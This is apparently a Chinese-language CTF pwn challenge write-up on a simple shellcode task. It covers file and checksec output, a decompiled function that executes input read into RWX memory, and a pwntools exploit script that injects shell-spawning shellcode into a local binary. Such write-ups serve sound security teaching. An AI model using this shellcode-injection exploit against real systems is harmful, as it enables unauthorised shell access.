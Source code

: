 # 简单的shellcode

- 作者：pn1fg
- 参考：-
- 难度：Normal
- 分类：Pwn
- 镜像：-
- 端口：70

# 题目描述

-

# 题目解析

- 源码：[shellcode.c](build/shellcode.c)
- 考点：写shellcode

`shellcode` 指的是用于完成某个功能的汇编代码，常见的功能主要是获取目标系统的 `shel`l。一般来说，shellcode 需要我们自己填充，要想执行`shellcode`，需要对应的 `binary`在运行时，`shellcode`所在的区域具有可执行权限。

______________________________________________________________________

#### 查看文件信息

查看文件类型：

```shell
>>> file shellcode
shellcode: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=e4a67a1f629c4ad7e86b6fd9e87a1bceccf80f7d, for GNU/Linux 3.2.0, not stripped
```

这是一个64位 ELF 文件，动态链接，没有去除符号

查看保护机制：

```shell
>>> checksec --file=shellcode
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

NX 保护

#### 分析漏洞成因

反编译`vuln`函数

```c
void sym.vuln(void)

{
    code *pcVar1;
    ulong buf;

    pcVar1 = sym.imp.mmap(0, 0x400, 7, 0x22, 0, 0);
    sym.imp.puts("Please Send !!!!");
    sym.imp.read(0, pcVar1, 0x400);
    (*pcVar1)();
    return;
}
```

这个`mmap`函数可能大家都不太熟悉，可以去了解一下这个函数的作用

`mmap`函数在本题中的作用是，将`pcVar1`指针指向的区域中大小为 0x400 的内存赋予可读可写可执行的权限，`read`函数从标准输入读取 0x400 的数据存入刚刚指针指向的区域

所以本题的大致思路就是，通过`read`函数我们将一段`shellcode`写入内存中并且执行它从而拿到`shell`

#### 编写利用程序

[exp.py](writeup/exp.py):

```python
from pwn import *

context.arch = 'amd64'
context.log_level = 'debug'

io = process('./shellcode')

shellcode = asm(shellcraft.sh()) 

payload = flat([shellcode,])

io.sendlineafter(b'!\n',payload)

io.interactive()
```
